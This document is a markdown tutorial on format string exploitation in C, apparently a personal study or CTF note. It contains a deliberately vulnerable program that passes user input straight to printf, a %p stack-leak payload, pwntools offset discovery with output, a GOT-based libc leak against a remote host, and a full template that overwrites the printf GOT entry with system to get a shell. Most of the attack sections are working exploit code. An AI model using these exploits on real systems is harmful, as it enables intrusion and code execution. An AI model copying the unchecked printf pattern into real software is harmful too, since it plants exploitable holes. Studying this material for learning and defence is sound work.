

> [!info] The Vulnerable Code (`vul.c`)
> ```c
> #include <stdio.h>
> 
> void func(int a, int b, char leak_me[]) {
>     char inp[100];
>     fgets(inp, 100, stdin);
>     printf(inp);  // VULNERABILITY: User input is the format string!
>     puts("bye\n");
> }
> 
> int main() {
>     func(0xaabbcc, 0xddeeff, "leaked Data: hello");
>     printf("Inside Main\n");
>     return 0x0;
> }
> ```

> [!tip] Compilation Flags Explained
> ```bash
> gcc -m32 -ggdb -mpreferred-stack-boundary=2 -fno-stack-protector -no-pie vul.c -o vul.elf
> ```
> - `-m32`: 32-bit binary (args passed on stack, easier to exploit).
> - `-ggdb`: Debug symbols for Rizin/GDB.
> - `-mpreferred-stack-boundary=2`: 4-byte stack alignment (removes padding, makes stack predictable).
> - `-fno-stack-protector`: No canaries.
> - `-no-pie`: Fixed base address (`0x08049000`).

> [!example]+ Rizin Disassembly & Stack Layout
> When `main` calls `func`, it pushes arguments right-to-left (CDECL).
> ```bash
> [0x080491d0]> pdf @ main
> ...
> │   0x080491e5      push  eax        ; char *leak_me
> │   0x080491e6      push  0xddeeff   ; int b
> │   0x080491eb      push  0xaabbcc   ; int a
> │   0x080491f0      call  dbg.func
> ```
> When `printf(inp)` is called, `printf` assumes the first argument is the format string. Every `%p` makes it read the next 4-byte value from the stack blindly.



> [!danger] Exploitation: The `%p` Payload
> ```bash
> python3 -c 'print("%p "*100)' | ./vul.elf
> ```
> The output will eventually print `0xaabbcc` and `0xddeeff` from the stack, proving an Information Disclosure vulnerability.

## Part 6: Advanced Exploitation & Automation (Pwntools)

> [!info] 64-bit Format String Caveats
> In 64-bit binaries, the first 6 arguments are in registers (`rdi, rsi, rdx, rcx, r8, r9`). The offset to reach your payload is higher. Also, 64-bit addresses contain null bytes (`0x00400000`), which terminate `printf`. 
> **Solution:** Place the format string BEFORE the target address.
> ```python
> # Payload Structure: Format String + Padding + Target Address
> payload = f"%11$s|||||".encode() # Format string + alignment padding
> payload += p64(0x00400000)      # The address to read (placed AFTER the string)
> ```

> [!tip] Bounded `%s` Leaks
> Use precision specifiers (`.N`) to limit read length and prevent crashes.
> `%.32s` reads max 32 bytes. `%m$.1s` reads exactly 1 byte.

> [!success] Automating Offset Discovery with Pwntools (`FmtStr`)
> Pwntools provides the `FmtStr` class to automatically find the argument offset and padding length required to reach your controlled buffer.
> 
> **Verified Practical Example(**`exp.py`**):**
> ```python
> from pwn import *
> 
> context.binary = './vul.elf'
> context.arch = 'i386'
> 
> def exec_fmt(payload):
>     p = process('./vul.elf')
>     p.sendline(payload)
>     return p.recvall(timeout=1)
> 
> autofmt = FmtStr(exec_fmt)
> 
> print("Offset:", autofmt.offset)
> ```
> 
> **Terminal Output:**
> ```text
> ┌──(kali㉿ox29a)-[/mnt/c/Users/CNA/OneDrive/Documents/code/c & c++/token]
> └─$ python3 exp.py
> [*] '/mnt/c/Users/CNA/OneDrive/Documents/code/c & c++/token/vul.elf'
>     Arch:       i386-32-little
>     RELRO:      Partial RELRO
>     Stack:      No canary found
>     NX:         NX enabled
>     PIE:        No PIE (0x8048000)
>     Stripped:   No
>     Debuginfo:  Yes
> [+] Starting local process './vul.elf': pid 1066
> [+] Receiving all data: Done (56B)
> [*] Process './vul.elf' stopped with exit code 0 (pid 1066)
> [*] Found format string offset: 1
> Offset: 1
> ```
> *Explanation: An offset of `1` means our input buffer is immediately at the top of the stack for `printf`'s variadic arguments. `FmtStr` confirmed this automatically by injecting cyclic patterns.*

> [!danger] Leaking libc via Resolved GOT Entries
> To bypass ASLR, leak a resolved GOT entry of a function that has already been called.
> ```python
> elf = context.binary = ELF('./fs-read', checksec=False)
> libc = ELF('./libc.so.6', checksec=False)
> io = remote(HOST, PORT) # Must be the same process!
> 
> def execute_fmt(payload):
>     io.sendline(payload)
>     return io.recvuntil(b'END')
> 
> fmt = FmtStr(execute_fmt=execute_fmt, offset=14, padlen=3)
> printf_addr = fmt.leaker.p(elf.got['printf'])
> libc.address = printf_addr - libc.sym['printf']
> log.success(f"libc @ {libc.address:#x}")
> ```

---

## Part 7: Full Exploit Template (GOT Overwrite)

> [!example]+ Automated Format String Write Template
> This template automates offset discovery and overwrites the `printf` GOT entry with the address of `system`. The next time `printf` is called with controlled input, it executes `system(input)`.
> 
> ```python
> from pwn import *
> from time import sleep
> 
> ###################
> ### CONNECTION ####
> ###################
> LOCAL = True
> LOCAL_BIN = "./tyler"
> 
> PREFIX_PAYLOAD = b""
> SUFFIX_PAYLOAD = b""
> NNUM_ALREADY_WRITTEN_BYTES = 0
> MAX_LENTGH = 999999
> 
> def connect_binary():
>     global P, ELF_LOADED, ROP_LOADED
>     if LOCAL:
>         P = process(LOCAL_BIN)
>         ELF_LOADED = ELF(LOCAL_BIN)
>         ROP_LOADED = ROP(ELF_LOADED)
> 
> def send_payload(payload):
>     payload = PREFIX_PAYLOAD + payload + SUFFIX_PAYLOAD
>     log.info("payload = %s" % repr(payload))
>     if len(payload) > MAX_LENTGH: print("!!!!!!!!! ERROR, MAX LENGTH EXCEEDED")
>     P.sendline(payload)
>     sleep(0.5)
>     return P.recv()
> 
> def get_formatstring_config():
>     global P
>     for offset in range(1,1000):
>         connect_binary()
>         P.clean()
>         payload = b"AAAA%" + bytes(str(offset), "utf-8") + b"$p"
>         received = send_payload(payload).strip()
> 
>         if b"41" in received:
>             for padlen in range(0,4):
>                 if b"41414141" in received:
>                     connect_binary()
>                     payload = b" "*padlen + b"BBBB%" + bytes(str(offset), "utf-8") + b"$p"
>                     received = send_payload(payload).strip()
>                     if b"42424242" in received:
>                         log.info(f"Found offset ({offset}) and padlen ({padlen})")
>                         return offset, padlen
>                 else:
>                     connect_binary()
>                     payload = b" " + payload
>                     received = send_payload(payload).strip()
> 
> offset, padlen = get_formatstring_config()
> 
> # Target: Overwrite printf GOT with system PLT
> SYSTEM_PLT = ELF_LOADED.plt["system"]
> P_GOT = ELF_LOADED.got["printf"]
> 
> log.info(f"System PLT address: {hex(SYSTEM_PLT)}")
> log.info(f"Printf GOT address: {hex(P_GOT)}")
> 
> connect_binary()
> 
> format_string = FmtStr(execute_fmt=send_payload, offset=offset, padlen=padlen, numbwritten=NNUM_ALREADY_WRITTEN_BYTES)
> format_string.write(P_GOT, SYSTEM_PLT)
> format_string.execute_writes()
> 
> # Now, sending "/bin/sh" to the next printf prompt will execute system("/bin/sh")
> P.interactive()
> ```

